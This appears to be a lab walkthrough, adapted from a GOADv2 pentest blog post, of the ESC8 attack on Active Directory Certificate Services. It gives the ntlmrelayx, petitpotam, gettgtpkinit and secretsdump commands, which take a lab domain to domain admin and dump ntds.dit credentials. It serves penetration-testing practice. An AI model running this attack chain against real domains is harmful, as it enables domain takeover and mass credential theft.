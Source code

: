 > [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part6/

In the previous post we tried some attacks with a user account on the domain. On this part we will try attacks when an ADCS is setup in the domain. First we will use petitpotam unauthenticated and ESC8 attack to get domain admin on essos.local, next we will enumerate template certificate with certipy, bloodhound and a user account. To finish we will exploit the following attacks : certipy, esc1, esc2, esc3, esc4, esc6, certifried and shadow credentials.

## ESC8 coerce to domain admin

- To make this attack work we will need :
    - ADCS running on the domain with web enrollment enabled.
    - A working coerce method (here we use petitpotam unauthent, but an authenticated printerbug or other coerce methods will work the same)
    - There is a useful template to exploit ESC8, by default on an active directory, its name is _DomainController_

- Let’s check if the web enrollment is up and running at : [http://192.168.56.23/certsrv/certfnsh.asp](http://192.168.56.23/certsrv/certfnsh.asp)

- The server ask for an authentication so all is fine :)
    
- Add a listener to relay SMB authentication to HTTP with impacket ntlmrelayx
    
```
impacket-ntlmrelayx.py -t http://192.168.56.23/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```


- Launch the coerce with [petitpotam](https://github.com/topotam/PetitPotam) unauthenticated (this will no more work on an up to date active directory but other coerce methods authenticated will work the same)
```
python petitpotam.py 192.168.56.1 meereen.essos.local
```


- ntlmrelayx will relay the authentication to the web enrollment and get the certificate

- Ask for a TGT with the certificate we just get (we copied it to the file cert.b64)
```
gettgtpkinit.py -certpfx meereen.pfx 'essos.local'/'meereen$' 'meereen.ccache'
```

> [!NOTE]  
> Error cert seems to be to old to be abused
> 

- And now we got a TGT for meereen so we can launch a DCsync and get all the ntds.dit content.
```
export KRB5CCNAME=/workspace/esc8/meereen.ccache
impacket-secretsdump -k -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local
```

>[!TIP] 
>But this works
